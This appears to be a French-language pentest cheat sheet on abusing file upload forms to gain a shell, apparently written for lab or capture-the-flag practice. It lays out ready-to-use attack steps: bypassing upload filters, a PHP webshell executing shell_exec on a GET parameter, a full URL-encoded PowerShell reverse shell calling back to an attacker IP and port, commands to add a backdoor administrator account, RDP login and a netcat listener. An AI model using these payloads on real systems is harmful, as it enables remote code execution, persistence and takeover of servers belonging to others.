 >- Rechercher quel language le back-end utilise via Wappalizer ou les headers des réponses HTTP (PHP, C#, Node.js, Python, Ruby on Rails, etc.)  

>- Télécharger un reverse shell dans le language et remplacer l'IP/Port par ceux voulus  

>- Nommer le shell avec l'extension qui bypass le filtre côté serveur ou changer le type MIME sur BurpSuite  

>- Enumeration pour retrouver le fichier uploadé (au cas où il aurait été renommé)  
`gobuster dir -u <URL/URI> -w <WORDLIST> -x <EXTENSION> -t 100`

>- Une fois le fichier trouvé, trouver un moyen de l'executer (URI, argument ou console)  
*Ne pas oublier d'avoir son port en écoute lors de l'execution*

## Reverse Shell

### WebShell

**Linux**  
>- Copier puis modifier /usr/share/webshells/php/php-reverse-shell.php  
`$ip = '<IP ATTAQUANT>';`  
`$port = <PORT>;`  
>- Puis upload sur le site et accéder au fichier

**Windows**  
>- Créer un fichier php avec la ligne suivante :  
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

>- Entrer l'URL du fichier avec l'argument "cmd" et la valeur:
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<**IP**>%27%2C<**PORT**>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

*Alors oui, c'est illisible parce que c'est encodé pour un URL mais c'est qu'il faut retenir c'est qu'il n'y a qu'à changer l'ip et le port (en gras) avant de charger l'URL*

>- On se log avec son listener préféré puis on se créer un utlisateur qu'on met dans le groupe admin  
`net user <utlisateur> <mdp> /add`  
`net localgroup administrators <utlisateur> /add`

>- Plus qu'à se log en RDP  
`sudo apt install freerdp2-x11`  
`xfreerdp /v:<IP CIBLE> /u:<utlisateur> /p:<mdp>`

### Netcat Reverse Shell
#### Syntaxe 
`nc -lvnp <PORT>`
